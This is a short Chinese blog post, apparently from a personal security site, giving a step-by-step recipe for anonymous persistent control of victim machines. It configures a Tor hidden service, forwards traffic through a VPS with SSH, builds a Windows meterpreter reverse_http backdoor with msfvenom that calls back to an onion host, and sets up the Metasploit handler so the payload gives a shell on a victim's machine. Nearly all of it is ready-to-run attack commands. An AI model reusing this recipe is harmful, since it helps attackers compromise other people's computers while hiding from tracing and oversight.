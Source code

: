 ```yaml
---
layout:     post
title:      Tor Fronting 匿名攻击
author:     wooy0ung
tags: 		dos
category:  	exploit
---
```



>利用 VPS 作为跳板强化可持续控制, 但还是会泄漏一部分个人信息。  
>Tor Hidden Services 提供了隐藏自身网络的服务, 它提供了一个唯一并且匿名的 hostname, 配合 VPS 进行流量转发, 最终实现匿名持续控制。  
![](/assets/img/exploit/2017-09-03-tor-fronting/0x00.png)
<!-- more -->


### 0x00 config Tor Hidden Services

查看系统版本

```
$ lsb_release -a
```

![](/assets/img/exploit/2017-09-03-tor-fronting/0x01.png)

选择对应的版本, [传送门](https://www.torproject.org/docs/debian.html.en#ubuntu)

![](/assets/img/exploit/2017-09-03-tor-fronting/0x02.png)

按提示要求安装, 然后编辑 /etc/tor/torrc 文件(取消注释)

```
HiddenServiceDir /var/lib/tor/hidden_service/
HiddenServicePort 80 127.0.0.1:8080
```

重启 Tor 服务

```
$ sudo service tor restart
```


### 0x01 开启 HTTPServer

查看 hostname

```
$ sudo cat /var/lib/tor/hidden_service/hostname
```

打开服务

```
$ cd /tmp
$ python -m SimpleHTTPServer 8080
```

端口转发

```
$ ssh -N -R 8080:192.168.1.104:8080 root@VPS_IP
```


### 0x02 payload & exploit

生成 http 反弹后门

```
$ msfvenom -p windows/meterpreter/reverse_http lhost=xxx.onion.link lport=80 -f exe > shell.exe
```

设置好 msf

```
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_http
msf exploit(handler) > set lhost 192.168.1.104
msf exploit(handler) > set lport 8080
msf exploit(handler) > set exitonsession false
msf exploit(handler) > exploit -j
```

在 Victim's machine 执行 payload, getshell~

![](/assets/img/exploit/2017-09-03-tor-fronting/0x03.png)